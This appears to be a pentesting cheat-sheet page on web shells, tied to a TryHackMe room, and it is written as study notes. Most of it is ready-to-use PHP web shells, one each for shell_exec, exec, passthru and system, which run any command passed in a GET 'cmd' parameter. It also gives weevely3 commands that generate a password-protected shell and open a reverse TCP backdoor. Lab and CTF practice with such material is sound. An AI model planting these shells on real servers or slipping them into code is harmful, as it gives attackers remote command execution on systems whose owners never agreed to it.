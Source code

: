 # Web shell

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

[Go back](../index.md#remote-shell-)

<div class="row row-cols-md-2"><div>

A web shell is a shell that is *usually* accessed from a browser. When possible, we want to use it as a foothold to move to reverse shell.

The language used in the web shell is **determined by the language the target web server understand**, such as PHP or JavaScript. ✨
</div><div>

For JavaScript, you need to find a way for the website to execute your web shell, as unlike PHP, it's not automatically done by visiting the web shell URL.

On Kali, you can find preinstalled web shells inside ([GitLab](https://gitlab.com/kalilinux/packages/webshells))

```bash
$ ls /usr/share/webshells
```
</div></div>

<hr class="sep-both">

## PHP web shell

<div class="row row-cols-md-2"><div>

PHP web shell are file such as `webshell.php`. Once uploaded on the target, you can execute them by browsing them with a browser.

Most web shells below are using GET to take to command to run. For instance, `[...]/webshell.php?cmd=id` to run the `id` command.

<br>

#### shell_exec

This is a compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php)).

```php
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

You may replace `?=` with `?php echo ` if not supported.

<br>

#### weevely3

This is a web shell using [weevely3](https://github.com/epinna/weevely3) (2.8k ⭐).

```ps
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```

<br>

#### phpbash

You can use the semi-interactive [phpbash](https://github.com/Arrexel/phpbash) (0.7k ⭐).
</div><div>

#### exec

This is a web shell using `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php!
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

#### passthru

This is a web shell using `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php!
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

#### system

This is a web shell using `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php!
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-md-2"><div>

* [wso-webshell](https://github.com/mIcHyAmRaNe/wso-webshell)
</div><div>


</div></div>